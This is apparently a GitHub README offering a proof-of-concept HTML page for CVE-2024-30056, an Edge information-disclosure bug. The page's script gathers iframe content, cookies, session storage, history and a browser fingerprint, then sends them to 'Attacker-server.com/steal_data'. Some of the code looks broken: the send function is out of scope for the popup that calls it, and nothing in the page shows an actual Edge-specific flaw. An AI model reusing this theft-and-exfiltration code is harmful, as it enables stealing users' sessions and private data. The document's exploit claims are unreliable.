

# Microsoft-Edge-Information-Disclosure
CVE-2024-30056 Microsoft Edge (Chromium-based) Information Disclosure Vulnerability

This is a vulnerability in Microsoft Edge (Chromium-based). The attacker was able to trick the user into revealing sensitive information without his knowledge.

## Poc:

```
<!DOCTYPE html>
<html>
<head>
    <title>PoC CVE-2024-30056</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 20px;
        }
        h1 {
            color: #333;
        }
        pre {
            background-color: #f5f5f5;
            padding: 10px;
            border: 1px solid #ddd;
            overflow: auto;
        }
        button {
            padding: 10px 20px;
            background-color: #007bff;
            color: #fff;
            border: none;
            border-radius: 5px;
            cursor: pointer;
        }
        button:hover {
            background-color: #0056b3;
        }
    </style>
</head>
<body>
    <h1> Poc CVE-2024-30056</h1>
    <iframe id="targetIframe" src="http://localhost/sensitive_page.html" style="display:none;"></iframe>
    <script>
        document.getElementById('targetIframe').onload = function() {
            try {
            
                let iframeDocument = document.getElementById('targetIframe').contentWindow.document;
                let sensitiveData = btoa(encodeURIComponent(escape(iframeDocument.documentElement.innerHTML))); 

               
                let cookies = btoa(encodeURIComponent(escape(document.cookie))); 
             
                let sessions = btoa(encodeURIComponent(escape(JSON.stringify(sessionStorage)))); 

            
                let browsingHistory = btoa(encodeURIComponent(escape(JSON.stringify(history)))); 

             
                let browserData = {
                    userAgent: navigator.userAgent,
                    platform: navigator.platform,
                    language: navigator.language,
                    plugins: [],
                    mimeTypes: [],
                    screen: {
                        width: window.screen.width,
                        height: window.screen.height,
                        colorDepth: window.screen.colorDepth
                    },
                    timezoneOffset: new Date().getTimezoneOffset()
                };

                for (let i = 0; i < navigator.plugins.length; i++) {
                    browserData.plugins.push({
                        name: navigator.plugins[i].name,
                        filename: navigator.plugins[i].filename,
                        description: navigator.plugins[i].description
                    });
                }
                for (let i = 0; i < navigator.mimeTypes.length; i++) {
                    browserData.mimeTypes.push({
                        type: navigator.mimeTypes[i].type,
                        description: navigator.mimeTypes[i].description,
                        suffixes: navigator.mimeTypes[i].suffixes
                    });
                }

               
                let popup = window.open("", "Sensitive Data", "width=600,height=600");
                popup.document.write("<h1>Sensitive Data</h1>");
                popup.document.write("<pr>" + decodeURIComponent(unescape(atob(decodeURIComponent(unescape(sensitiveData)))) + "</pr>"));
                popup.document.write("<h2>Cookies:</h2>");
                popup.document.write("<pre>" + decodeURIComponent(unescape(atob(decodeURIComponent(unescape(cookies)))) + "</pre>"));
                popup.document.write("<h2>User Sessions:</h2>");
popup.document.write("<pre>" + decodeURIComponent(unescape(atob(decodeURIComponent(unescape(sessions)))) + "</pre>"));
                popup.document.write("<h2>Browsing History:</h2>");
                popup.document.write("<pre>" + decodeURIComponent(unescape(atob(decodeURIComponent(unescape(browsingHistory)))) + "</pre>"));
                popup.document.write("<h2>Browser Information:</h2>");
                popup.document.write("<pre>" + JSON.stringify(browserData, null, 2) + "</pre>");

             
                popup.document.write("<button onclick=\"sendData()\">Send Data </button>");

            
                function sendData() {
                    let xhr = new XMLHttpRequest();
                    xhr.open("POST", "http://Attacker-server.com/steal_data", true);
                    xhr.setRequestHeader("Content-Type", "application/json");
                    xhr.send(JSON.stringify({ sensitiveData: sensitiveData, cookies: cookies, sessions: sessions, browsingHistory: browsingHistory }));
                    alert("Stolen data has been sent to the malicious server!");
                }
            } catch (error) {
                console.error('Error accessing iframe content:', error);
            }
        };
    </script>
</body>
</html>
```



